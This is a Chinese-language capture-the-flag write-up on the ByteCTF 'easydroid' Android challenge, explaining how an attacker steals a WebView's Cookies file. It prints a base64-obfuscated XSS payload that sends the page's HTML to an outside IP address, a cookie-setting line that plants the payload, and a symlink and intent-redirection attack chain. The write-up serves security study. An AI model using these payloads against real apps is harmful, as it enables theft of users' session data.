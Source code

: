 而下面这段代码可以将整个exp.html的内容发送到指定的地址：

&lt;img src="x" onerror="eval(atob('bmV3IEltYWdlKCkuc3JjID0gImh0dHA6Ly8xOTIuMTY4LjQzLjE2NDo4MC8/Y29va2llPSIgKyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoImh0bWwiKVswXS5pbm5lckhUTUwpOw=='))"&gt;  
​  
base64解码后为：  
new Image().src = "[http://192.168.43.164:80/?cookie](http://192.168.43.164/?cookie)=" + encodeURIComponent(document.getElementsByTagName("html")\[0\].innerHTML);

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-df4594586e52427af51bcd308eb33305305ba118.png)

假如我们把这段代码插入到Cookies文件中，并且让这段xss执行，那么就可以将Cookies文件中的所有数据都拿到。

由此得出两个问题：

1\. 如何将这段代码插入到Cookies中？  
1\. 这段代码在Cookies文件中是不会执行的，如何让这段xss执行？

我们先保留问题，继续往下看，进入漏洞复现环节。

漏洞利用
====

我们使用ByteCtf中的easydroid题目案例进行讲解。

MainActivity中的代码:

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-c53cabad89fa7c4a0ebc35be1b1632419d7bb4db.png)

可以得到信息：加载网站，对URL进行校验，可以执行JavaScript。

**shouldOverrideUrlLoading接口**

该接口主要是给WebView提供时机，可以拦截URL做一些其他操作。

该接口的返回值是关键，True（拦截WebView加载Url，选择浏览器打开），False（允许WebView直接加载Url）

在这里是对URL进行拦截并解析，然后使用startActivity来启动Intent。

TestActivity中的代码：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-849ba49c2fac8d324e54ed2309c8395bb0e9569a.png)

获取数据，使用webview加载。

代码很简短，我们整理思路，来理清攻击链。

上面我们介绍了通过xss来窃取Cookies，并提出了两个问题，现在我们就是要解决这两个问题。  
1.如何将这段代码插入到Cookies中？  
我们知道可以通过document.cookie = "xxxxxxx"来设置cookie，而这cookie的值会被存放到Cookies文件中，所以我们可以通过这样的方式将我们的攻击代码插入到Cookies文件中。  
document.cookie = "x = '&lt;img src=\\"x\\" onerror=\\"eval(atob('bmV3IEltYWdlKCkuc3JjID0gImh0dHA6Ly8xOTIuMTY4LjQzLjE2NDo4MC8/Y29va2llPSIgKyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoImh0bWwiKVswXS5pbm5lckhUTUwpOw=='))\\"&gt;'"  
​  
2.这段代码在Cookies文件中是不会执行的，如何让这段xss执行？  
JS代码在html文件中会执行，所以我们要想办法将Cookies中的内容存放到一个html文件中。这里采用的是符号链接的方式,谷歌官方提出修复方法时已经给出了思路([https://support.google.com/faqs/answer/9084685)，所以我们可以将Cookies文件与一个html文件进行符号链接](https://support.google.com/faqs/answer/9084685)%EF%BC%8C%E6%89%80%E4%BB%A5%E6%88%91%E4%BB%AC%E5%8F%AF%E4%BB%A5%E5%B0%86Cookies%E6%96%87%E4%BB%B6%E4%B8%8E%E4%B8%80%E4%B8%AAhtml%E6%96%87%E4%BB%B6%E8%BF%9B%E8%A1%8C%E7%AC%A6%E5%8F%B7%E9%93%BE%E6%8E%A5)。  
​  
建立一个easydroid.html，它里面有两个重定向：一个是设置Cookie，一个是加载与Cookies文件符号链接后的那个html文件。  
在shouldOverrideUrlLoading中，重定向时会通过parseUri解析intent，这里利用了Android-Intent重定向的知识，在之前的文章中已经进行了学习([https://www.freebuf.com/articles/web/325314.html)。toUri与parseUri正好相反，可以使用toUri来得到攻击代码](https://www.freebuf.com/articles/web/325314.html)%E3%80%82toUri%E4%B8%8EparseUri%E6%AD%A3%E5%A5%BD%E7%9B%B8%E5%8F%8D%EF%BC%8C%E5%8F%AF%E4%BB%A5%E4%BD%BF%E7%94%A8toUri%E6%9D%A5%E5%BE%97%E5%88%B0%E6%94%BB%E5%87%BB%E4%BB%A3%E7%A0%81)。  
通过重定向进入到了TestActivity中，然后获取数据，使用loadUrl加载。
